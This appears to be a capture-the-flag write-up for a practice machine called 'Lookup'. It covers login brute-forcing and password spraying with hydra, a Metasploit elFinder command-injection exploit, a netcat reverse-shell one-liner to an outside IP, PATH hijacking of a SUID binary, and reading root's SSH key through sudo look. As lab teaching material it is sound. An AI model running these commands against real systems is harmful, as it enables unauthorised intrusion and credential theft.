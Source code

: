 # Lookup

### Lookup
Initial scan shows port 22 and 80 open: 

    # Nmap 7.94SVN scan initiated Wed Nov 27 17:24:12 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sC -sV -oN scan 10.10.65.102
    Nmap scan report for lookup.thm (10.10.65.102)
    Host is up (0.061s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 44:5f:26:67:4b:4a:91:9b:59:7a:95:59:c8:4c:2e:04 (RSA)
    |   256 0a:4b:b9:b1:77:d2:48:79:fc:2f:8a:3d:64:3a:ad:94 (ECDSA)
    |_  256 d3:3b:97:ea:54:bc:41:4d:03:39:f6:8f:ad:b6:a0:fb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Login Page
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

If I try to access the webpage, I get redirected to `lookup.thm`:<br />
![image](https://github.com/user-attachments/assets/084acc68-fc20-4967-b497-99d031da7a78)<br />
So add the following line `10.10.65.102 lookup.thm` to the `/etc/hosts` file. It seems like a basic login page. If I try to access with basic credentials such as `admin:password`, I get the following response:<br />
![image](https://github.com/user-attachments/assets/c71eabe3-d2be-4cca-8991-91672308e8a7)<br />
Which is a weird way of handling errors. I tried `sqlmap` but nothing. I have to dig somewhere else.<br />
Next thing I try is to enumerate directories using gobuster: `gobuster dir -u lookup.thm -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt` but nothing was found. <br />
Now I try to enumerate subdomains. I found the subdomain `www.lookup.thm` but it's the same as `lookup.thm` so nothing there. Next, I noticed that if I tried logging with user `admin`, I get the reponse "Wrong password". But if I try to log in with, for example, "john", I get "Wrong username or password." This means that admin should be a valid user. So I try to login into the admin's account using bruteforce with hdyra: `hydra -l admin -P /usr/share/wordlists/rockyou.txt.gz lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong password"` and it finds something!<br />
![image](https://github.com/user-attachments/assets/d3a9e3c4-b445-4844-bbc6-d38ed1491c6b)<br />
Login fails.. but something strange happens, look:<br />
![image](https://github.com/user-attachments/assets/cec66cdd-cebc-4e4f-8685-5639592ea325)<br />
If I use credentials `admin:password123`, the server responds with "Wrong username or password", which is incoherent with the fact that admin is a valid user. This is really strange and I'm not sure why it behaves like that. But my guess is that it might do this for some server misconfiguration which shows this message if the password is a valid password! So the server might have this weird behaviour:

    1) if username and password are correct --> successful login
    2) if username is incorrect --> wrong username or password
    3) if username is correct but password doesn't exist on the DB --> wrong password
    4) if username is correct and password exists on the DB, but they don't match --> wrong username or password

I know, it's strange, but I don't have any other explanation for that. So since `password123` might be valid, let's try a password spraying attack! I'll bruteforce usernames using this password with hydra: <br />
![image](https://github.com/user-attachments/assets/b9781d2c-324f-47ca-b71d-aee99e19416c)<br />
I found a valid set of credentials! `jose:password123`. If I try to log in, I get redirected to `files.lookup.thm`, so let's add it on the /etc/hosts file.<br />
![image](https://github.com/user-attachments/assets/ff5d452a-3f5b-4b33-b7c2-994bad37727b)<br />
ElFinder is an opensource file management software that wants to offer a desktop-like experience. The version is `2.1.47`. Searching online, I found that this version is vulnerable to command injection, and the exploit is available on metasploit! So open `msfconsole` and run the exploit with the following commands:

    use exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
    set lhost YOUR_IP
    set rhosts files.lookup.thm
    run

And it should open a meterpreter session. Now, I can't use metasploit, so I used the `shell` command to drop to a system shell, and then opened a reverse shell on another terminal because I really don't know how to use meterpreter very well, I need to do a tutorial. For the reverse shell I opened a netcat listener on my machine and from the dropped shell I run `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.90.188 5555 >/tmp/f`.
First thing I notice: the user `think` has the user flag, and inside his home directory I see a `.passwords` file that I can't read. So my guess is that I need to find a way to read that file. <br />
Using linpeas on the target system, I found an interesting binary that might be exploited:<br />
![image](https://github.com/user-attachments/assets/883cfbee-381e-4cee-953c-747b15f65b58)<br />
This is how it behaves: <br />
![image](https://github.com/user-attachments/assets/5122c223-5870-418f-bfa3-8e5f482aa70d)<br />
So it runs the `id` command to find out the user, and then looks for `/home/%user%/.passwords`. I think that my goal is to somehow fool this binary into believing that I'm actually the user `think`.<br /><br />
I decided to analyze this binary using IDA. Here's the main structure: <br />
![image](https://github.com/user-attachments/assets/20a4cbee-8f1d-47d6-882d-74d6eac5f44a)<br />
I'm used to work with the CDECL or STDCALL calling conventions from university, because we only analyzed 32 bit windows executables. This is the first time I'm trying to analyze an ELF file, but it seems very similar. The main diffence I need to know is that the arguments of functions are not pushed on the stack, but are stored on registers. Specifically `rdi`, `rsi`, `rdx` and `rcx`.<br /><br />
From this first block we can see that the binary is calling `popen` with `id` as parameter, so it wants to execute the `id` system command. <br />
This is another interesting block: <br />
![image](https://github.com/user-attachments/assets/7657b367-a033-4068-bd89-6c77f12c19f8)<br />
The binary takes the stdoutput of the `id` command, and then ignores the user-ID (the integer) and only considers the username. Here "uid=%u(%[^)])" is a paramenter of `fscanf` which specifies to ignore the UID, and only take the string that is inside the first two parenthesis. For example, if I now run `id`:<br />
![image](https://github.com/user-attachments/assets/913cb855-f12b-4eb4-aa56-401d2b9031e9)<br />
This binary will only consider the string underlined in red, which is `www-data`.<br />
At this point it tries to read the .passwords file, just like I guessed earlier:<br />
![image](https://github.com/user-attachments/assets/c9b61b17-9bc3-4016-a479-07e23c67c7b0)<br />
So I think I know where the vunlnerability lies. The binary is calling the `id` command, but not `/usr/bin/id` or whatever; the path is relative, not absolute. This means that I can create a custom `id` command on any directory, for example /tmp/, and then change the `PATH` environment variable to search for binaries inside /tmp/ first. So let's try it. I created the custom `id` command inside /tmp/, and it echoes a string on stdoutput, built to fool the `pwm` binary that I'm actually the user `think`. The code can be found in this folder in the file `fake_id`. Remember to call it `id` and to make it executable with `chmod +x id`. Now we want to change the PATH environment variable: run `export PATH=/tmp:$PATH`. Now if I run `id`:<br />
![image](https://github.com/user-attachments/assets/6cbecb52-7293-410e-8376-a33ac0de5a40)<br />
It executes my `fake_id`. The setup is ready, let's run the vulnerable binary: <br/ >
![image](https://github.com/user-attachments/assets/1c753f57-ae4f-4d84-a83c-e1c1700bf7ba)<br />
It worked! We have a list of passwords! I will now copy this wordlists in a file, and then will use it to bruteforce an ssh login as the user `think`. The command is `hydra -l think -P passwords ssh://10.10.124.210`. And the credentials are `think:josemario.AKA(think)`.<br />
Time to become root. If I run `sudo -l` and prompt the password, I can see that I have sudo privileges on the following binary: <br />
![image](https://github.com/user-attachments/assets/ef14348a-3b6d-4978-b727-99cbcc82607f)<br />
I didn't know this binary. But apparently is a well known binary that will show you all the words (taken from a dictionary in the file system) that start with the input that you provide. I found on [GTFObins](https://gtfobins.github.io/gtfobins/look/#sudo) a way to exploit it to read any files we want, so I used it to read the root flag: <br />
![image](https://github.com/user-attachments/assets/1a95beda-001c-4c3f-9497-8a209979f0ad)<br />
If I wanted to used it to become root, one possible way is to read the private rsa key with `sudo /usr/bin/look '' /root/.ssh/id_rsa`, and then use it to login with ssh. Have a nice rest of your day :)
